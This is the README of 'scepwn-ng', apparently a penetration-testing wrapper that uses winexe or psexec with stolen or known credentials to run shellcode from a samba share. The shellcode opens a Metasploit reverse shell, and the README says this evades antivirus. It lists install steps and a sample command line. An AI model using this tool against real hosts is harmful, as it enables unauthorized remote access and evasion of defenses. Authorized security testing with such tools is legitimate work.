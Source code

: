 scepwn-ng
@thejosko <jskorich@secureworks.com>

INTRODUCTION
============
scepwn-ng is a wrapper script for launching winexe/psexec at a target, which then runs shellcode exec from a samba share with a msf generated reverse shell. As the executable never touches disk, it is highly effective at evading a/v. 


INSTALL
=======
Basic Setup for a kali box (skyfire):
```
		$ cd /opt
		$ git clone https://github.com/CoreSecurity/impacket.git
		$ cd impacket; python setup.py install
		$ cd /opt; git clone https://github.com/inquisb/shellcodeexec.git
```
If not using Kali, you will also need to install metasploit and winexe, as well as possibly modify the tool locations.

USAGE
=====

		./scepwn-ng.rb [optional]

**Example:**

		./scepwn-ng.rb -u 'Administrator%Password1' -t 10.1.1.1 -s psexec -p 4444

Note - All options are just that.. optional. If you leave anything out it will ask you for it.


**Options:**

		-t, --target TARGET              
																		Target IP address
		-u, --user CREDENTIALS           
																		Credentials in DOMAIN/USERNAME%PASSWORD format
		-p, --port PORT                  
																		Reverse shell port number (default: 443)
		-s, --service SERVICE            
																		winexe or psexec (default: winexe)
		-h, --help                       
																		Display this screen
             
